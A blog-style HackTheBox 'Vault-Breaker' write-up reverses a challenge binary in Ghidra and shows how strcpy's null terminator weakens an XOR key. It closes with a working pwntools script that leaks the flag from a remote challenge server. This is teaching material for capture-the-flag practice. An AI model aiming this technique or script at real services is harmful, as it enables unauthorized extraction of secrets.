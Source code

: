 ```yaml
---
layout: post
title: Binary Exploitation&#58; HacktheBox/Vault-Breaker Write-up
---
```


## HacktheBox Vault-Breaker Write-up

This was a pretty simply challenge that is centered around the ```strcpy``` function.

First, we need to check the file type and securities on the binary
```
└─$ file vault-breaker
vault-breaker: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./.glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=26386d5d416b0017bc57216179a3fb116fa78667, not stripped
```
```
└─$ checksec --file=vault-breaker                                                
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   RW-RUNPATH   90 Symbols	  No	0		5		vault-breaker
```

With a canary, NX, and PIE, we won't be able to (or at least easily) do a buffer overflow or shellcode injection. Time to see what it looks like in ghidra.

### Reversing

First, let's check the ```main``` function.
```c
void main(void)

{
  long lVar1;
  
  setup();
  banner();
  key_gen();
  fprintf(stdout,"%s\n[+] Random secure encryption key has been generated!\n%s",&DAT_00103142,
          &DAT_001012f8);
  fflush(stdout);
  while( true ) {
    while( true ) {
      printf(&DAT_00105160,&DAT_001012f8);
      lVar1 = read_num();
      if (lVar1 != 1) break;
      new_key_gen();
    }
    if (lVar1 != 2) break;
    secure_password();
  }
  printf("%s\n[-] Invalid option, exiting..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
  exit(0x45);
}
```

The program generates a random key value in the ```key_gen()``` function and then prompts the user for a menu choice. The options are ```1``` for generate a new key and ```2``` to "secure" the password.

Now we need to look at the ```new_key_gen``` function.
```c
void new_key_gen(void)

{
  int iVar1;
  FILE *__stream;
  long in_FS_OFFSET;
  ulong local_60;
  ulong local_58;
  char local_48 [40];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  local_60 = 0;
  local_58 = 0x22;
  __stream = fopen("/dev/urandom","rb");
  if (__stream == (FILE *)0x0) {
    fprintf(stdout,"\n%sError opening /dev/urandom, exiting..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
    exit(0x15);
  }
  while (0x1f < local_58) {
    printf("\n[*] Length of new password (0-%d): ",0x1f);
    local_58 = read_num();
  }
  memset(local_48,0,0x20);
  iVar1 = fileno(__stream);
  read(iVar1,local_48,local_58);
  for (; local_60 < local_58; local_60 = local_60 + 1) {
    while (local_48[local_60] == '\0') {
      iVar1 = fileno(__stream);
      read(iVar1,local_48 + local_60,1);
    }
  }
  strcpy(random_key,local_48);
  fclose(__stream);
  printf("\n%s[+] New key has been genereated successfully!\n%s",&DAT_00103142,&DAT_001012f8);
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

This function essentially generates a new key of the length provided by the user. The vulnerability is in the ```strcpy``` function. ```strcpy``` takes the contents of ```arg[1]``` and copies them into ```arg[0]```. The catch is, that it will copy the null terminator as well. This will be an important detail in the next function we take a look at, ```secure_password```.
```c
void secure_password(void)

{
  char *__buf;
  int __fd;
  ulong uVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  char acStack136 [24];
  undefined8 uStack112;
  int local_68;
  int local_64;
  char *local_60;
  undefined8 local_58;
  char *local_50;
  FILE *local_48;
  undefined8 local_40;
  
  local_40 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  uStack112 = 0x100c26;
  puts("\x1b[1;34m");
  uStack112 = 0x100c4c;
  printf(&DAT_00101308,&DAT_001012f8,&DAT_00101300,&DAT_001012f8);
  local_60 = &DAT_00101330;
  local_64 = 0x17;
  local_58 = 0x16;
  local_50 = acStack136;
  memset(acStack136,0,0x17);
  local_48 = fopen("flag.txt","rb");
  __buf = local_50;
  if (local_48 == (FILE *)0x0) {
    fprintf(stderr,"\n%s[-] Error opening flag.txt, contact an Administrator..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
    exit(0x15);
  }
  sVar2 = (size_t)local_64;
  __fd = fileno(local_48);
  read(__fd,__buf,sVar2);
  fclose(local_48);
  puts(local_60);
  fwrite("\nMaster password for Vault: ",1,0x1c,stdout);
  local_68 = 0;
  while( true ) {
    uVar1 = (ulong)local_68;
    sVar2 = strlen(local_50);
    if (sVar2 <= uVar1) break;
    putchar((int)(char)(random_key[local_68] ^ local_50[local_68]));
    local_68 = local_68 + 1;
  }
  puts("\n");
                    /* WARNING: Subroutine does not return */
  exit(0x1b39);
}
```

This function looks like a lot, but the salient detail is in this code block:
```c
  while( true ) {
    uVar1 = (ulong)local_68;
    sVar2 = strlen(local_50);
    if (sVar2 <= uVar1) break;
    putchar((int)(char)(random_key[local_68] ^ local_50[local_68]));
    local_68 = local_68 + 1;
  }
```

The flag is XORed with our key. Using the information we gathered previously about the nature of the ```strcpy``` function and the fact that anything XORed with 0 is equal to itself, we can put together the flag one character at a time.

### Pwn

To complete this challenge, we need a script that will connect to the target and input a key length 32 times from 0 to 31 (The key length is 32 bytes).
```python
#!/usr/bin/env  python3

from pwn import *

flag = ""

for i in range(23):
    p = remote("209.97.134.177", 31320) 
    p.recvuntil(b"> ", timeout=30)
    p.sendline(b"1")
    p.recvuntil(b"Length of new password (0-31): ", timeout=30)
    p.sendline(str(i))
    p.recvuntil(b"> ", timeout=30)
    p.sendline(b"2")

    # Capture response
    p.recvuntil(b"Vault: ", timeout=30)
    r = p.recvline()

    # Append unencrypted character to flag
    flag += chr(r[i])
    p.close()
    print(flag)
```

Et Voila!
